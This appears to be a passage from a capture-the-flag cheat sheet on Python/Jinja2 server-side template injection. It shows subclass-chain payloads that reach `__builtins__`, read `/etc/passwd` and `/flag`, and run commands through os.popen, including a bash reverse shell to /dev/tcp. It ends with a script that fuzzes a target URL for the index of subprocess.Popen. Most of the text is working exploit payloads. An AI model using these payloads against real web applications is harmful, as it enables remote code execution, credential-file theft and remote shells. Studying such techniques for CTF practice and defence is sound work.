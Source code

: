 ```python
object.__subclasses__()
```

- Find the overloaded `__init__` class. After obtaining the initialization property, the description with `wrapper` is not overloaded. Look for those without `warpper`; you can also use `.index()` to find `file`, `warnings.catch_warnings`

```python
''.__class__.__mro__[2].__subclasses__()[99].__init__
<slot wrapper '__init__' of 'object' objects>

''.__class__.__mro__[2].__subclasses__()[59].__init__
<unbound method WarningMessage.__init__>
```

- View its reference `__builtins__`

```python
''.__class__.__mro__[2].__subclasses__()[138].__init__.__globals__['__builtins__']
```

- Here we will return the dict type, look for functions available in keys, and use functions such as file in keys to implement the function of reading files.

```python
''.__class__.__mro__[-1].__subclasses__()[138].__init__.__globals__['__builtins__']['file']('/etc/passwd').read()
```

### Commonly used target functions
```python
file
subprocess.Popen
os.popen
exec
eval
```

### Common intermediate objects
```python
catch_warnings.__init__.func_globals.linecache.os.popen('bash -i >& /dev/tcp/127.0.0.1/233 0>&1')
lipsum.__globals__.__builtins__.open("/flag").read()
linecache.os.system('ls')
```

### fuzz available class scripts
- For example, for subprocess.Popen, you can construct the following fuzz script

```python
import requests

url = ""

index = 0
for i in range(100, 1000):
    #print i
    payload = "{{''.__class__.__mro__[-1].__subclasses__()[%d]}}" % (i)
    params = {
        "search": payload
    }
    #print(params)
    req = requests.get(url,params=params)
    #print(req.text)
    if "subprocess.Popen" in req.text:
        index = i
        break


```